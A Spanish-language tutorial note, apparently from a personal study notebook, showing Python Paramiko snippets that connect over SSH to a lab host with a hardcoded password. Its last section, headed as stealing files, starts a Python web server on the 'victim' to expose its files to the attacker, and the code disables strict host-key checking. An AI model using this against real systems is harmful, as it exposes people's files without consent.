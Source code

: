Paramiko es una librería que se utiliza para la automatización de tareas que requieren conectividad a través del protocolo SSH.
```python
import paramiko
import time

host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

client = paramiko.SSHClient()
client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
client.connect(host, username=user, password=password) # Cargamos las variables.
client.set_missing_host_key_policy(paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.

time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.

resultado = stdout.read().decode() # Recogemos el standar output en una variable.
print(resultado)
```

![[Pasted image 20221217085658.png]]
También podemos mejorar el código de tal forma que en caso de que la conexión tenga algún error, que se nos muestre dicho mensaje por pantalla:
```python
import paramiko
import time

host = '192.168.1.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

try:

    client = paramiko.SSHClient()
    client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
    client.connect(host, username=user, password=password) # Cargamos las variables.
    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

    stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.
    time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.
    resultado = stdout.read().decode() # Recogemos el standar output en una variable.
    print(resultado)

except:

    print("Algo ha fallado en la conexión...")
```
![[Pasted image 20221217085839.png]]
## ROBAR ARCHIVOS POR SSH CON PYTHON
También podemos ejecutar el comando para montar un servidor web con python y así poder robar los archivos:
```python
import paramiko

host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

try:

    client = paramiko.SSHClient()
    client.load_host_keys('C:/Users/mario/.ssh/known_hosts')
    client.connect(host, username=user, password=password)
    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() )

    print("Debes escribir esta dirección en el navegador para acceder a los archivos de la víctima: ",host)

    client.exec_command('python3 -m http.server 81') # Montramos el servidor Python por el puerto que queramos.

except:
    print("Hubo un error...")
```
Y ya tenemos acceso desde nuestra máquina atacante a los archivos de la víctima:
![[Pasted image 20221217085936.png]]

